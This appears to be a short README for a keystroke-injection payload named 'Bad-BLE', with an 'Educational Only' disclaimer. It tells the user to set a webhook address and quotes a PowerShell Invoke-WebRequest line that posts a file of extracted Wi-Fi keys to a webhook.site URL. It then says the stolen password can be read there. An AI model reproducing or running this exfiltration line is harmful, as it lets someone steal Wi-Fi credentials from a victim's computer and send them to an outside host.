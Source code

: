 # Bad-BLE

Note from WFH2021-2025
Please use this wisely and for Educational Only:

Line 18 : change to your webhook address or you may leave as is :
STRINGLN powershell Invoke-WebRequest -Uri https://webhook.site/472afad1-5d96-4590-a85c-169e8b333bcf -Method POST -InFile WiFi-Key 

To see the extracted password you can visit https://webhook.site/472afad1-5d96-4590-a85c-169e8b333bcf or you own webhook site.
